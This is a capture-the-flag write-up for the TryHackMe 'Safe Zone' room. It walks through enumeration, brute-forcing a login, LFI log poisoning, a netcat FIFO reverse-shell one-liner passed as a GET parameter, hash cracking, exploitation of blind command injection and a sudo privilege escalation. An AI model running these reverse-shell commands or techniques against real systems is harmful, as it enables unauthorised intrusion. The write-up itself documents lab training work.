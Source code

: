 ```yaml
---
title: Safe Zone
layout: post
author: Bit Criminals Team
date: 2021-05-10 17:02:00 +0530
type: Pen Testing
difficulty: Medium
prompt: https://tryhackme.com/room/safezone
---
```



This was an interesting and thought-provoking room!

So,let's start!

# Enumeration
 Using nmap I founded 2 open ports : 22 (for ssh) and 80 (for http service)

 Command used: 
> nmap -sS -Pn -T4 -vvv <ip>

![nmap](https://user-images.githubusercontent.com/78094309/117653814-834ba580-b1b2-11eb-82a8-2824c38ebb7b.png)


Now, looking after port 80, I used gobuster and thus got the following directories:
![gobuster](https://user-images.githubusercontent.com/78094309/117653895-a24a3780-b1b2-11eb-8017-20bf507ef83c.png)

On checking index.php, Got a login form:

![loging_page](https://user-images.githubusercontent.com/78094309/117654823-ea1d8e80-b1b3-11eb-9eb7-978b8ba0a6e1.png)


On checking further directories and enumeration i got the hint for the password:
![~files](https://user-images.githubusercontent.com/78094309/117655056-32d54780-b1b4-11eb-99da-771cb0f581c2.png)

So, I made a script and thus found out the password:

![script](https://user-images.githubusercontent.com/78094309/117655127-4bddf880-b1b4-11eb-97c2-072ad49f3ed2.png)

> password: admin44admin

Now,checking the source-code ,a hint was given : use *page* as GET parameter

![webpage-get](https://user-images.githubusercontent.com/78094309/117655350-919ac100-b1b4-11eb-93a0-c857be2f174b.png)


So, I tried opening a shell using the following command (passed as get parameter):

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f

Using any online URL encoder tool,I encoded this string and passed as GET parameter and thus was able to obtain a shell.
![nc_alternative](https://user-images.githubusercontent.com/78094309/117655622-f0f8d100-b1b4-11eb-99e7-b5a0e492f2b4.png)

Used burp for passing GET request:
![burp](https://user-images.githubusercontent.com/78094309/117655661-ff46ed00-b1b4-11eb-92dc-9f568f0d7595.png)

for reference, you can read the concept here: https://www.hackingarticles.in/apache-log-poisoning-through-lfi/

![shell](https://user-images.githubusercontent.com/78094309/117655795-28677d80-b1b5-11eb-9333-fbe54dcb96f9.png)



After getting the shell lets convert it into a stable tty shell by using following commands:

```py
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
![](safezone1.png)

I searched for the user flag but there were only previous hints that we got. But then we got the password hash for the user files and after cracking it using john we came to know that its password is `magic`
![](safezone2.png)

So now we can login as files through ssh!
After finding a bit i used following command to check if there is possibility for port forwading and YES there were two ports running locally...
```py
ss -tulwn
```
![](safezone3.png)

I tried 3336 port but there was nothing but port 8000 gave us positive response!
![](safezone4.png)

![](safezone5.png)

So we ran gobuster on it and found a index.html directory which was a login page.
![](safezone6.png)

![](safezone7.png)

And its source contained a login.js directory which gave us the credentials.
So we succesfully logged in....

![](safezone8.png)

This allows us to send a message to Yash,an existing user on the system,and we find out it is susceptible to blind command injection!
So we ssh into the machine once again using "magic" as the password,create a reverse shell in the /tmp directory and allot it universal permissions.

After that we turn on the listener at the specified port and in the webpage enter the message /tmp/reverseshell(the name of our reverse-shell) and send it.

![](/images/MaskdMafia/safezone-1.png)

And we are logged in as Yash!
Moving to /home/yash ,we see that it has a flag.txt there which is our user flag.

![](/images/MaskdMafia/safezone-2.png)

After this we execute the command "sudo -l" to see which commands the user Yash is capable of executing the machine.
After executing bk.py we see that it copies files from its source to a destination specified ,so we try to copy the root flag from the root directory. And just like this, we reveal the root flag.

![](/images/MaskdMafia/safezone-3.png)
